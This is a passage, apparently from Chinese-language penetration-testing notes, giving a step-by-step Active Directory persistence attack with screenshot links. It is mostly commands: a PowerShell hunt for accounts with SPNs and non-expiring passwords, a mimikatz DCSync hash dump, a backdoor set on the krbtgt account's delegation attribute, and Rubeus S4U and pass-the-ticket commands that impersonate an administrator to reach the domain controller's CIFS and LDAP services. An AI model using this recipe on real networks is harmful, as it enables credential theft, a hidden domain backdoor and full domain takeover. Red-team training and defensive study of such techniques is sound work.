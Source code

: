 	域控执行，寻找具备SPN且密码永不过期的账户
	>Get-ADUser -Filter * -Properties ServicePrincipalName,PasswordNeverExpires| ? {($_.ServicePrincipalName -ne "") -and ($_.PasswordNeverExpires -eq $true)}
![image](/assets/Pentest_Note/master/img/553.png)

	使用mimikatz的dcsync提取用户hash
	>lsadump::dcsync /domain:zone.com /user:y
![image](/assets/Pentest_Note/master/img/554.png)
	
	布置后门
	>Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount 账户
![image](/assets/Pentest_Note/master/img/555.png)

	布置完成后利用，登录账户y
	触发后门
	>Rubeus.exe s4u /user:y /aes256:{aes256} /domain:zone.com /msdsspn:krbtgt /impersonateuser:godadmin
![image](/assets/Pentest_Note/master/img/556.png)

	注入票据，获取域控的CIFS、LDAP服务
	>Rubeus.exe asktgs /ticket:{} /service:cifs/dc.zone.com,ldap/dc.zone.com /ptt
![image](/assets/Pentest_Note/master/img/557.png)
![image](/assets/Pentest_Note/master/img/558.png)
![image](/assets/Pentest_Note/master/img/559.png)
![image](/assets/Pentest_Note/master/img/560.png)